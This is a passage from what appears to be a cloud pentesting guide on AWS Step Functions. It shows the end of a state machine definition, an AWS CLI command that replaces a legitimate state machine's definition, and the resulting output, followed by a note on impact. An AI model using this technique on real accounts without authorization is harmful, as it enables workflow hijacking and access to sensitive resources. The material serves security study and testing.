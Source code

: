 ```json
      "Next": "End PassState"
    },
    "End PassState": {
      "Type": "Pass",
      "End": true
    }
  }
}
```
{% endtab %}
{% endtabs %}

* **Command** executed to **update** **the legit state machine**:

{% code overflow="wrap" %}
```bash
aws stepfunctions update-state-machine --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:HelloWorldLambda --definition file://StateMachineUpdate.json
{
    "updateDate": "2024-07-10T20:07:10.294000+02:00",
    "revisionId": "1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f"
}
```
{% endcode %}

**Potential Impact**: Unauthorized execution and manipulation of workflows and access to sensitive resources, potentially leading to significant security breaches.

{% hint style="success" %}